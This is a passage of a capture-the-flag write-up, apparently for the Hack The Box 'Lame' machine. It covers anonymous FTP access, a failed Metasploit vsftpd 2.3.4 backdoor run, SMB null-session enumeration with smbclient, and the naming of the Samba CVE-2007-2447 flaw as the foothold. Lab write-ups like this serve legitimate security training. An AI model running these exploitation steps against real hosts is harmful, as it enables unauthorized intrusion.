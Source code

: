 ![[ftp.png]]

The server accepts:
- **User:** `anonymous`
- **Password:** *(empty)*

![[ftp_enumeration.png]]

No files of interest are available for download.  
However, the version `vsftpd 2.3.4` is known to be backdoored (**CVE-2011-2523**).

#### Exploit Attempt (Unsuccessful)

Search on Metasploit to check if there is any vulnerability for `vsftpd 2.3.4`:

![[search_vsftpd.png]]

Using Metasploit’s `vsftpd_234_backdoor` module:

```bash
msfconsole
search vsftpd_234
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.3
run
```

![[vsftpd_fail.png]]

The exploit completes but fails to yield a shell, so we proceed to investigate other services.

---
### 2.2 SMB Enumeration

We check available SMB shares using unauthenticated (null session) access:

```bash
smbclient -L 10.10.10.3 -N
```

![[GitHub Documentation/EASY/HTB_Lame_Writeup/screenshots1/smbclient_null.png]]

The `tmp` share is writable and accessible without authentication:

```bash
smbclient //10.10.10.3/tmp -N
```

![[smbclient_tmp.png]]

---
## 3. Foothold

The Samba version `3.0.20-Debian` is vulnerable to the **username map script** command execution vulnerability (CVE-2007-2447).  

